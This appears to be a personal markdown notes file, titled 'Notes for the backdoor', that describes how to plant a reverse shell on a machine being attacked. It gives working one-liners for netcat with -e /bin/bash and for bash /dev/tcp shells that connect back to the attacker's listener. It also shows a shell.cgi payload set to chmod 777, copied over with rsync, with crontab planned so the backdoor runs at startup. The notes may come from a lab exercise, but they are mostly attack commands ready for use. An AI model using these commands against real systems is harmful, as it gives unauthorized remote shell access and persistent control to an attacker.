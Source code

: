 # Notes for the backdoor
Will most likely need to make use of crontab so the file automatically gets executed at a time or at startup. 

HM = Host machine
VM = Virtual machine that is being attacked

# 1 Netcat method
This creates a reverse shell with netcat

HM
1. HM setup listening port: `nc –l 4444`
2. Get the hosts ip address: `ifconfig | grep --color netmask`
	it will be something like `192.168.x.xxx`

3. gain remote access to the VM, via ssh or ...?
4. On Linux VM, setup the reverse shell with hosts IP address: `nc 192.168.x.xxx -e /bin/bash`

5. on HM type any bash command and hit enter

# 2 without Netcat installed
- // 0<&196; open file descriptor and redirect it to stdin. 196 is a random number
- // exec 196<>/dev/tcp/192.168.0.xxx/4444; read-write file descriptor,  https://unix.stackexchange.com/questions/164391/how-does-cat-file-work
- // sh <&196 receive commands from host machine, display output on target
- // sh >&196 receive commands on target, redirect output to the host machine
- // sh 2>&196 redirect stderr to the host
- // sh <&196 1>&196 2>&196 allow commands output to display on the target machine
on HM: `nc –l 4444`
on VM: `0<&196;exec 196<>/dev/tcp/192.168.0.xxx/4444; sh <&196 1>&196 2>&196`

# 3 even better method
https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3
- // >& <location> redirects stdout and stderr to be redirected to <location>
- // 0<&1 redirects std in back to the shell
on HM: `nc –l 4444`
on VM: `/bin/bash -i >& /dev/tcp/192.168.0.xxx/4444 0<&1`
copy it to the remote machine: `rsync -av shell.cgi sparky@kali:/home/sparky/desktop`	// change to use your machines details instead of sparky@kali						

## Elaborate a little bit --> create the script, set permissions
on HM: `echo "/bin/bash -i >& /dev/tcp/192.168.0.xxx/4444 0<&1" > shell.cgi; chmod 777 shell.cgi`

## copy the script to the remote machine
rsync -av shell.cgi sparky@kali:/home/sparky/desktop

## now the remote machine just needs to run shell.cgi
Sounds like Crontab could do this, or https://serverfault.com/questions/364040/how-to-execute-a-process-on-remote-linux-machine-without-ssh
./shell.cgi

# TODO
- [ ] figure out how to make the script execute on the remote machine.
rsync --chmod=u+rwx,g+rwx,o+rwx /path/to/file server:/path/to/file
